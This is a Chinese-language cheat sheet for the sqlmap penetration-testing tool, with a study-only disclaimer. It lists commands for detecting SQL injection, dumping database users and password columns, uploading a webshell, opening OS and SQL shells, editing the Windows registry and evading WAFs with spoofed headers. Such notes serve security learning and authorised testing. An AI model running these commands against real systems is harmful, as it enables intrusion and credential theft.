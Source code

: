 # Sqlmap

<p align="center">
    <img src="../../../assets/img/logo/Sqlmap.png" width="25%">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/sqlmapproject/sqlmap

**文章 & Reference**
- [Sqlmap使用教程[个人笔记精华整理] | 漏洞人生](http://www.vuln.cn/1992)
- [sqlmap用户手册[续]](http://drops.xmd5.com/static/drops/tips-401.html)

---

# 常见操作

**检测注入**

```bash
sqlmap -u URL -v 3 --random-agent                       # 判断注入
sqlmap -u URL -p id                                     # 指定参数注入
sqlmap -u URL --cookie="xxxxx"                          # 带 cookie 注入
sqlmap -u URL --batch                                   # 不要请求用户输入,使用默认行为
sqlmap -r aaa.txt                                       # post 型注入

sqlmap -u URL --flush-session                           # 清除缓存

sqlmap -u URL --os "Windows"                            # 指定操作系统
sqlmap -u URL --dbms mysql --level 3                    # 指定数据库类型为 mysql,级别为 3(共 5 级,级别越高,检测越全面)
sqlmap -u URL --dbms Microsoft SQL Server
sqlmap -u URL --dbms mysql --risk 3                     # 指定执行测试的风险(1-3, 默认 1) 1会测试大部分的测试语句,2会增加基于事件的测试语句,3会增加 OR 语句的 SQL 注入测试
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3                 # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080"         # 代理注入测试
sqlmap -u URL --batch --smart       # 启发式判断注入
```

**获取信息**

```bash
sqlmap -u URL --current-db          # 获取当前数据库
sqlmap -u URL --dbs                 # 枚举所有数据库
sqlmap -u URL -f                    # 检查 DBMS 版本
sqlmap -u URL --is-dba              # 判断当前用户是否是 dba
sqlmap -u URL --users               # 列出数据库管理系统用户
sqlmap -u URL --privileges          # 枚举 DBMS 用户权限
sqlmap -u URL --passwords           # 获取当前数据库密码

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns           # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all            # 列出所有数据库,所有表内容
```

**搜索字段**

```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password  # 在 dedecms 数据库中搜索字段 admin 或者 password.
```

**读取与写入文件**

首先找需要网站的物理路径,其次需要有可写或可读权限.

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 (物理路径)
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 (mssql xp_shell)
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注 : mysql 不支持列目录,仅支持读取单个文件.sqlserver 可以列目录,不能读写文件,但需要一个 xp_dirtree 函数
```

**提权**

```bash
sqlmap -u URL --sql-shell                       # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell                        # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig                 # 在注入点直接执行命令
sqlmap -d "mssql://sa:sql123456@ip:1433/master" --os-shell  # 知道数据库密码后提权成为交互式系统shell
```

**对 Windows 注册表操作**

```bash
--reg-read                                      # 读取注册表值
--reg-add                                       # 写入注册表值
--reg-del                                       # 删除注册表值
--reg-key,--reg-value,--reg-data,--reg-type     # 注册表辅助选项

sqlmap -u URL --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
```

**预估完成时间**

```bash
--eta                                           # 计算注入数据的剩余时间
```

**测试 WAF/IPS/IDS 保护**

```bash
--identify-waf                                                      # 尝试找出WAF/IPS/IDS保护，方便用户做出绕过方式。
--mobile                                                            # 模仿智能手机
--referer "http://www.google.com"                                   # 模拟来源
--user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"    # 模拟谷歌蜘蛛
--skip-waf
```

**尝试 getshell**

```bash
sqlmap -d "mysql://root:root@192.168.1.1:3306/mysql" --os-shell
```

---

# ACCESS

**相关文章**
- [sqlmap注入access数据库](https://www.jianshu.com/p/258d7014f84c)
- [使用SQLMap进行Access注入](https://4hou.win/wordpress/?p=17495)
